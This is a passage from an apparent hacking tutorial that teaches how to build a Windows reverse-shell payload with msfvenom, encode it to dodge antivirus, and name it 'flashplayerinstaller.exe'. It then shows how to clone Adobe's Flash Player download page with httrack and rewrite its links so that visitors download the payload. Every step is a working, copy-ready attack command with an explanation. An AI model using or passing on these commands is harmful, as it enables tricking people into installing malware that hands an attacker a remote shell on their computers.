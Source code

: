 We need to be sure to set these options when we go to generate the payload:

```
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=[YOUR_IP_ADDRESS] LPORT=[YOUR_PORT] -b "\x00" -e x86/shikata_ga_nai -f exe -o flashplayerinstaller.exe
```

Let's break this down piece by piece

- `-a x86` - Describes the cpu architecture we're building for, in this case a 32-bit processor for easy compatibility
- `--platform windows` - The target platform for the payload
- `-p windows/shell/reverse_tcp` - The payload type we want to use
- `LHOST=[YOUR_IP_ADDRESS]` - This is your _public_ IP address (if you are on a a standard home network, [click here to find this](https://whatismyipaddress.com/))
- `LPORT=[YOUR_PORT]` - This is an open port on your machine, needs to be higher than `1024` because of permissions, will need to be [port forwarded](https://www.noip.com/support/knowledgebase/general-port-forwarding-guide/) for this to work on a standard home network (I like to use `4444` or `1337`)
- `-b "\x00"` - avoids using the `\x00` null character in the payload
- `-e x86/shikata_ga_nai` - This is using the `x86/shikata_ga_nai` encoder, which will encode our payload to avoid some Anti Virus detection
- `-f exe` - Format of the output file, here we're generating a Windows `.exe` file
- `-o flashplayerinstaller.exe` - The output filename of the payload

# Deploying the Payload

Here we're going to try to spoof, or fake, the [Adobe Flash Player download page](https://get.adobe.com/flashplayer/).

> Note: since flash player has now been discontinued, you're going to have to find another site or find a copy of the webpage off of [The Wayback Machine](https://web.archive.org/web/20201008000104/https://get.adobe.com/flashplayer/). Some webpage modification may be necessary.
>
> So sad to see you go :(

## Cloning and Hosting the Webpage

You can always just use your browser's "Save Page As..." functionality to download the web page, however that won't download all of the pictures and assets locally for us to serve. So, instead we're going to use a tool called `httrack`. This is also pre-install in Kali Linux.

```
$ httrack https://get.adobe.com/flashplayer/ -F "Mozilla/5.0 (Windows NT 10.0;Win64; x64)"
```

This will download the entire page and it's assets. The `-F "Mozilla/5.0 (Windows NT 10.0;Win64; x64)"` allows the webpage to think we're on a 64-bit Windows machine (even though we're on a Kali Machine), since Adobe modifies how the page looks based on this.

This should download into your current directory, which you can then navigate to the `index.html` file. In this file, we can look for any and all `<a>` tags and modify their `href="..."` attributes to be `/flashplayerinstaller.exe`.

Now you should copy the `flashplayerinstaller.exe` file we generated with `msfvenom` earlier into the same directory as the `index.html` file.

